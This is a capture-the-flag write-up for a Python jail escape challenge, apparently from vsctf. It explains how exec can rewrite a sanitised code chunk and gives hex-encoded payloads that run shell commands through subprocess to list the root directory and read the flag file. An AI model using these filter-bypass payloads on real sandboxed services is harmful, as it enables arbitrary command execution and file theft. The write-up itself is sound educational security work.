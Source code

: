 ```yaml
---
layout: post
date: 2023-09-12 18:00:00 +0200
title: "Not a last minute Pyjail"
excerpt_separator: <!--more-->
---
```

In this challenge we need to solve a pyjail that looks very similar to another pyjail.
<!--more-->
From the very beginning, this pyjail hints that it was ripped from another CTF.

## Mind games

The challenge description comes with the notice:

> This jail was totally not made last minute (based on gctf treebox)

The title also hints that this was quickly put together.

Opening the file, we notice a copyright notice from Google in 2022.

```py
# Copyright 2022 Google LLC
...
# Flag is in a file called "flag" in cwd.
```

The rest of the code looks extremely similar except for 3 major differences:
- The AST is filtered on a whitelist rather than a blacklist
- The characters `@.()#` are banned
- The code is run in chunks delimited by `--CHUNK`

As you probably guessed by now, this challenge has nothing to do with previous challenges.

## The exploit

When we run `exec` we get access to the current context, so we could modify the code contained in the second chunk after it got sanitized.

## The code

We want to encode all our characters as hex to bypass the filters.

let's inject
```py
import subprocess;
p = subprocess.Popen("ls /", stdout=subprocess.PIPE, shell=True);
(output, err) = p.communicate();
print(output)
```

The code we give netcat is:

```
chunks[1] = "\x69\x6d\x70\x6f\x72\x74\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x3b\x70\x20\x3d\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x6f\x70\x65\x6e\x28\x22\x6c\x73\x20\x2f\x22\x2c\x20\x73\x74\x64\x6f\x75\x74\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x49\x50\x45\x2c\x20\x73\x68\x65\x6c\x6c\x3d\x54\x72\x75\x65\x29\x3b\x28\x6f\x75\x74\x70\x75\x74\x2c\x20\x65\x72\x72\x29\x20\x3d\x20\x70\x2e\x63\x6f\x6d\x6d\x75\x6e\x69\x63\x61\x74\x65\x28\x29\x3b\x70\x72\x69\x6e\x74\x28\x6f\x75\x74\x70\x75\x74\x29"
--CHUNK
1 + 1
--END
```

We find that the flag is located in `/flag.poyvHVzi1MUB72nR0gly.txt`

Let's modify our injected code cat

```py
import subprocess;
p = subprocess.Popen("cat /flag.poyvHVzi1MUB72nR0gly.txt", stdout=subprocess.PIPE, shell=True);
(output, err) = p.communicate();
print(output)
```

The code we give netcat is:

```
chunks[1] = "\x69\x6d\x70\x6f\x72\x74\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x3b\x70\x20\x3d\x20\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x6f\x70\x65\x6e\x28\x22\x63\x61\x74\x20\x2f\x66\x6c\x61\x67\x2e\x70\x6f\x79\x76\x48\x56\x7a\x69\x31\x4d\x55\x42\x37\x32\x6e\x52\x30\x67\x6c\x79\x2e\x74\x78\x74\x22\x2c\x20\x73\x74\x64\x6f\x75\x74\x3d\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2e\x50\x49\x50\x45\x2c\x20\x73\x68\x65\x6c\x6c\x3d\x54\x72\x75\x65\x29\x3b\x28\x6f\x75\x74\x70\x75\x74\x2c\x20\x65\x72\x72\x29\x20\x3d\x20\x70\x2e\x63\x6f\x6d\x6d\x75\x6e\x69\x63\x61\x74\x65\x28\x29\x3b\x70\x72\x69\x6e\x74\x28\x6f\x75\x74\x70\x75\x74\x29"
--CHUNK
1 + 1
--END
```

## Flag
`vsctf{PYTHONNNNNN_SO_FUNNN}`